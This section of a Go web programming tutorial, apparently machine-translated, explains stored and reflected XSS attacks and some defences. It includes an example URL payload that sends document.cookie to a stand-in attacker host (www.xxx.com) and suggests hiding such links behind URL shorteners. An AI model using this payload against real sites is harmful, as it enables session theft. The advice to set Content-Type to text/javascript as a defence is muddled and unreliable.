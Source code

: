 # 9.3 XSS attacks

With the development of Internet technology, and now the Web application contains a lot of dynamic content to improve the user experience. The so-called dynamic content is that the application environment and the user according to the user request, the output of the corresponding content. Dynamic site will be called "cross-site scripting attacks" (Cross Site Scripting, security experts often be abbreviated as XSS) threats, while static site is completely unaffected by it.

## What is XSS

XSS attacks: cross-site scripting attacks (Cross-Site Scripting), in order not to, and Cascading Style Sheets (Cascading Style Sheets, CSS) acronym confusion, it will be abbreviated as cross-site scripting attacks XSS. XSS is a common web security vulnerability that allows an attacker to provide malicious code into the pages used by other users. Unlike most attacks (generally involve the attacker and the victim), XSS involves three parties, namely the attacker, the client and Web applications. XSS attack goal is to steal a cookie stored on the client or other websites used to identify the identity of sensitive client information. Once you get to the legitimate user's information, the attacker can even impersonate interact with the site.

XSS can usually be divided into two categories: one is the storage type of XSS, mainly in allowing users to input data for use by other users who browse this page to view places, including comments, reviews, blog posts and various forms. Applications to query data from the database, the page is displayed, the attacker entered the relevant page malicious script data, users browse these pages may be attacked. This simple process can be described as: a malicious user input Html Web applications - > access to the database -> Web Programs - > user's browser. The other is reflective XSS, the main approach is to add the script code in the URL address of the request parameters, request parameters into the program directly to the output of the page, the user clicks a malicious link in a similar attack could be.

XSS present the main means and ends as follows:

- Theft of cookie, access to sensitive information.
- The use of implantable Flash, through crossdomain permissions set to further obtain a higher authority, or the use of Java and other get similar operations.
- Use iframe, frame, XMLHttpRequest or the Flash, etc., to (the attacker) the identity of the user to perform some administrative actions, or perform some, such as: micro-Bo, add friends, send private messages and other routine operations, some time ago, Sina microblogging suffered once XSS.
- The use of a domain can be attacked by other characteristics of domain trust to request the identity of trusted sources do not allow some of the usual operations, such as an improper voting.
- In a great number of visits on the page XSS attack some small sites can achieve the effect of DDoS attacks

## XSS principle

Web applications are not submitted the requested data to the user to make a full inspection filter that allows users to incorporate data submitted by HTML code (most notably">","<"), and the output of malicious code without escaping to third parties interpreted the user's browser, is leading causes of XSS vulnerabilities.

Next to reflective XSS XSS illustrate the process: There is now a website, according to the parameters outputs the user 's name, such as accessing url: `http://127.0.0.1/?name=astaxie`, it will output the following in the browser information:

	hello astaxie

If we pass this url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`, then you will find out a browser pop-up box, which Help the site has been in existence XSS vulnerabilities. So how malicious users steal Cookie it? 
And the like, as this url: 

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`
, so that you can put current cookie sent to the specified site: `www.xxx.com`. You might say, so have a look at the URL of the problem, how would someone clicks? Yes, this kind of URL will make people skeptical, but if you use a short URL service to shorten it, you could see it?, The attacker will shorten the url in some way after the spread, know the truth once the user clicks on this url, cookie data will be sent the appropriate pre-configured sites like this on the user's cookie information Theft, then you can use a tool like Websleuth to check whether the user's account to steal.

A more detailed analysis about XSS we can refer to this called" [ Sina microblogging XSS event analysis ] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)" articles

## How to prevent XSS

The answer is simple, and resolutely do not believe any user input, and filter out all the special characters in the input. This will eliminate the majority of XSS attacks.

There are currently XSS defense following ways :

- Filtering special characters

One way to avoid XSS mainly to the user-supplied content filtering, Go language provides the HTML filter function :

`text/template` package below `HTMLEscapeString`, `JSEscapeString` other functions

- Using HTTP headers specified type

`w.Header().Set("Content-Type","text/javascript")`

This allows the browser to parse javascript code, and will not be html output.


## Summary

XSS vulnerability is quite hazardous in the development of Web applications, it is important to remember to filter data, especially in the output to the client, which is now well-established means of preventing XSS.

## Links

- [Directory](preface.md)
- Previous section: [Filter inputs](09.2.md)
- Next section: [SQL injection](09.4.md)
